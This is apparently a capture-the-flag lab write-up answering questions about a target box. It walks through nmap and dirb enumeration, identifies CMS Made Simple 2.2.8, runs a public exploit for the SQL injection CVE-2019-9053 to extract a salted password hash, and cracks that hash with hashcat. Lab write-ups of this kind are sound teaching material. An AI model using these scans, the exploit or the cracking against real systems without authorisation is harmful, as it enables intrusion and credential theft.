 **1. How many services are running under port 1000?**

Let's start with enumerationg the machine using NMAP and save the result to txt file:
`nmap -sS -sV -A <IP> -oN nmap.txt`
```
snip ...
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
snip ...
```
We can see there are three open ports and two of them are under 1000. 


**2. What is running on the higher port?**

ssh is running on port 2222

**3.What's the CVE you're using against the application?**

Now, we need to enumerate a little bit to find out our CVE to use. Our NMAP showing us that there is an apache server is running on port 80, let's go and open it using our IP. 
![apache](https://user-images.githubusercontent.com/101599690/215180783-3b774595-dcc9-4904-bfb6-42e225ebe59a.png)

There is nothing really intersting here, it just a defaul apache server webpage. Let's try find if there are any hidden directories using dirb. 
`dirb http://IP /usr/share/dirb/wordlists/common.txt`

We found there is a directory called `simple`, let's look at it. Go to `http://IP/simple/`.

Looking around, we found the website is `CMS made simple`. 

![CMS](https://user-images.githubusercontent.com/101599690/215182559-ae148fb7-2604-49d2-962d-49ef80e011f6.png)

**Now we need to know the version of the website, to know exactly which CVE we are going to use. The website shows us the version at the bottom of the webpage, which is `2.2.8`.**

![simple](https://user-images.githubusercontent.com/101599690/215182740-d12c48ae-bea3-4014-a111-b0d3534f3025.png)

**Using searchploit to find out the vulnerability of this webpage version.** 

`searchploit CMS made simple 2.2.8`

![Screenshot 2023-01-27 150318](https://user-images.githubusercontent.com/101599690/215186517-fed48b5f-cf27-4a08-bfa9-312955df29b8.png)

Now we know the vunlerability we are going to use, and searching in `cve.mitre.org` we know the CVE-ID sis `CVE-2019-9053`. 

**3. What's the CVE you're using against the application?**

`CVE-2019-9053`

**4. To what kind of vulnerability is the application vulnerable?**

`SQLI`

**5. What's the password?**

Searching about this CVE, I found there is a script to get the username and hash password. I get the script from `https://github.com/e-renna/CVE-2019-9053`.

Let's use the script on the simple webpage. `python3 exploit.py -u http://IP/simple/`.

![ssss](https://user-images.githubusercontent.com/101599690/215186636-8ea7ad0d-3e86-44cb-9d14-46958e466b3f.png)


The script gives us the a salt password and hash password. We can crack the paswword using the hash and salt using hashcat. Storing the `hash:salt` using this foramt to a text file and cun `hashcat -a 0 -m 20 password.txt password.txt /usr/share/wordlists/rockyou.txt`. We specify the hash is of type md5 `-a 0` and choosing the format `20 = md5($salt.$pass)`. 
